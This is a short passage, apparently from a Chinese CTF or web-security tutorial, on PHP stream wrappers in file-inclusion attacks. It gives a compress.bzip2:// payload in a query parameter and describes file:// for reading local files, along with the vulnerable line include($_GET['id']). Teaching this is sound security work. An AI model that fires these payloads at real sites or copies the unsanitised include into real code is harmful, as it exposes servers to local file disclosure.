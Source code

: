![img](./assets/10ef92-a5b091-78805a221a988e79ef3f42d7-1024x198.png)

**compores.bzip2://file.bz2**

压缩 phpinfo.txt 为 phpinfo.bz2 上传，任意后缀名

```
?file=compress.bzip2://E:\web\d-cutevnc\test2.test
```

![img](./assets/38bded-c460fa-78805a221a988e79ef3f42d7-1024x181.png)

#### file://

利用条件：

- allow_url_fopen: On
- allow_url_include: On

用于访问本地文件系统，在 CTF 中通常用来 **读取本地文件**

```
include($_GET["id"]);
```

![img](./assets/d7e3b1-0f40a8-78805a221a988e79ef3f42d7-1024x209.png)
